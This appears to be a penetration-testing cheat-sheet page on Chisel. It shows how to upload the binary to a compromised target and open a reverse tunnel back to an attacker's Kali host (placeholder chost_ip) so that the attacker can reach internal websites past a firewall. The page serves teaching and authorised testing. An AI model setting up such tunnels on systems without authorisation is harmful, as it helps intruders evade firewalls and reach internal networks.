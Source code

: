 # Chisel

<div class="row row-cols-lg-2"><div>

[Chisel](https://github.com/jpillora/chisel) <small>(10.8k ⭐)</small> is a post-exploitation tool that can be used to remotely access a website using TCP. This can be useful to access website from your browser will a firewall is blocking connections.

On Kali, you can install it using:

```shell!
$ sudo apt install chisel
```

On the remote target server, you need to get `chisel`

* Use `lscpu` to find which binary is appropriate
* Download the appropriate binary [here](https://github.com/jpillora/chisel/releases/)
* Unzip (`gunzip xxx.gz`) and upload it on the target
</div><div>

**Example: From Kali - Access A Remote Internal Website** 

On Kali, the host, listen for clients:

```shell!
$ chisel server -p cport --reverse
Listening at <chost_ip:cport>
```

On the target, assuming the website is running at `localhost:80`, and we want to access it using `localhost:8080` on Kali, we would use:

```ps
$ ./chisel client chost_ip:cport R:8080:localhost:80
```

If the website is running on another machine such as `xxx.local:8000`, we can simply replace `localhost` with an IP or a Domain Name:

```ps
$ ./chisel client chost_ip:cport R:8080:xxx.local:8000
```

📚 On your Kali machine, you will have to add an entry in your host file: `127.0.0.1 xxx.local`, and use `http://xxx.local:8080`.

⚠️ Remember that you need to use the actual host IP in shells.
</div></div>